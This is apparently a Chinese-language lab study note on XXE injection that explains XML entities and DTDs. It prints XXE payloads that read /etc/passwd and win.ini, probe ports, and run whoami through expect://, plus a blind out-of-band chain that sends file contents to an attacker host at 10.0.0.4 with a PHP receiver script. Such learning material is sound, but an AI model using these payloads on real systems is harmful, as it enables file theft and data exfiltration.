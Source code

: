 # XML外部实体攻击简介

**XML外部实体攻击**（XXE，XML External Entity Injection），是一种针对解析[XML](https://zh.wikipedia.org/wiki/XML)格式应用程序的攻击类型之一。此类攻击发生在配置不当的XML解析器处理指向外部实体的文档时，可能会导致敏感文件泄露、拒绝服务攻击、服务器端请求伪造、端口扫描（解析器所在域）和其他系统影响。也就是XML外部实体注入攻击。漏洞是在对非安全的外部实体数据进行处理时引发的安全问题。

XML 1.0标准定义了XML文档结构，同时定义了实体的概念，即某种类型的存储单元。外部一般解析实体或外部参数解析实体通常简称为外部实体，攻击者可声明特定[系统标识符](https://zh.wikipedia.org/w/index.php?title=系统标识符&action=edit&redlink=1)来访问服务器本地或远程内容。XML处理器假设系统标识符为可访问的[统一资源标志符](https://zh.wikipedia.org/wiki/统一资源标志符)（URI），然后将同名的外部实体以系统标识符所指定的资源内容解除引用。若系统标识符被修改，则XML处理器可能会泄露应用程序通常无法访问的秘密信息。



# XML结构

> \- XML被设计为传输和存储数据，其焦点是数据的内容。
>
> \- HTML被设计用来显示数据，其焦点是数据的外观。

XML把数据从HTML分离，XML是独立于软件和硬件的信息传输工具。

基本语法：

* 所有 XML 元素都须有关闭标签。
* XML 标签对大小写敏感。
* XML 必须正确地嵌套。
* XML 文档必须有根元素。
* XML 的属性值须加引号。

如果你把字符`<`放在 XML元素中，会发生错误，这是因为解析器会把它当作新元素的开始。

`<message>hello < world</message>`，为了避免错误。我们用实体引用`&lt;`来代替`<`字符。XML中，有5个预定义的实体引用。



## DTD属性

文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD可被成行地声明于XML文档中，也可作为一个外部引用。

属性声明使用以下语法：

```
<!ATTLIST 元素名称 属性名称 属性类型 默认值>
```

DTD实例：

```
<!ATTLIST payment Hu3sky CDATA "H">
```

XML实例：

```
<payment Hu3sky="H" />
```

> [引用自：浅谈XML实体注入漏洞](https://www.freebuf.com/vuls/175451.html)

也就是说，`Hu3sky=`的值如果可以由用户控制，那么可以像构造XSS攻击一样，构造出攻击代码。



由于XML是由元素节点组成的树结构，元素之间可存在嵌套关系，因此XML解析器会对XML文档中所有文本也进行解析。为了能够在文本中兼容一些特殊字符 *（默认有`<`、`>`、`&`、`'`和`"`）* ，XML允许在DTD中声明实体并在文本中进行引用，如`<`预定义的实体引用是`<`，是不是有些眼熟？著名的` `其实也是HTML预定义的一个实体引用。

XML实体又分为**内部实体**和**外部实体**，声明方式如下：

```
<!ENTITY name "value">
<!ENTITY name SYSTEM "URI">
<!ENTITY name PUBLIC "PUBLIC_ID" "URI">
```

外部实体声明中，分为`SYSTEM`和`PUBLIC`，前者表示私有资源 *（但不一定是本机）* ，后者表示公共资源。实体声明之后就可以在文本中进行引用了。

>  [原文链接：github.com/gyyyy](https://github.com/gyyyy/footprint/blob/master/articles/2018/xxe-injection-overview.md)



# 有回显演示

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210824232057.png)

构造payload

```
http://www.webtester.com/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20%20a%20%20%5B%3C%21ENTITY%20b%20SYSTEM%20%22file%3A%2f%2f%2fC%3A%2fWindows%2fwin.ini%22%3E%5D%3E%3Cc%3E%26b%3B%3C%2fc%3E
```

不知道为什么得到的结果是下面这个样子。。。不过已经和上面原始的页面的不一样了。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210824232908.png)

## 伪协议利用

在php中还可以利用伪协议读取任意文件

### file://

```
<?xml version="1.0"?><!DOCTYPE  a  [<!ENTITY b SYSTEM "file:///etc/passwd">]><c>&b;</c>
```

```
http://www.webtester.com/xxe.php?xml=%3c%3fxml%20version%3d%221.0%22%3f%3e%3c!doctype%20%20a%20%20%5b%3c!entity%20b%20system%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%5d%3e%3cc%3e%26b%3b%3c%2fc%3e
```

我也不知道为什么没有成功。。。查看源码：

```
<?php
include 'init.php';

$string_xml = '<?xml version="1.0" encoding="utf-8"?><note><to>George</to><from>John</from><heading>Reminder</heading><body>xml实体注入</body></note>';

$xml = isset($_GET['xml'])?$_GET['xml']:$string_xml;
$data = simplexml_load_string($xml);
echo  '<meta charset="UTF-8">';
print_r($data);
?>
```

水平有限，看不出所以然来，看来要学一学**世界上最好的语言了**（手动狗头）。

### php://

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```

一如既往的没有成功。。。

### http://

扫描端口

```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "http://10.0.0.4:80">
]>
<abc>&test;</abc>
```

要裂开了，等回头请教大佬看看是怎么回事。

还有个很奇怪的点是，已经在虚拟机中修改了虚拟网络，部分虚拟机是按照`10.0.0.x`配置IP地址的，但是也有部分是按照路由器的设置来分配IP地址的，即使在虚拟机中设置网卡为`DHCP`也是无济于事，十分郁闷。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210825083438.png)

下面这是另外一个虚拟机，可以看到IP地址是和我们预想的保持一致的。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210825083713.png)

### expect://

执行命令

```
<?xml version="1.0"?> <!doctype any [ <!entity test system "expect://whoami">
```

别想了，也不会有什么结果的。



# 无回显演示

无回显XXE又称为blind xxe，可以使用外带数据通道提取数据。

访问目标页面查看，发现什么都没有，就是这个样子。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210825084338.png)

构造payload，发送到后端

```
?xml=<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///var/www/html/1.txt">
<!ENTITY % remote SYSTEM "http://10.0.0.4/evil.xml">
%remote;
%all;
]>
<root>&send;</root>
```

或者这样

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://10.0.0.4/1.txt?file=%file;'>">
```

读取内容

```
<?php file_put_contents("1.txt", $_GET['file']); ?>
```


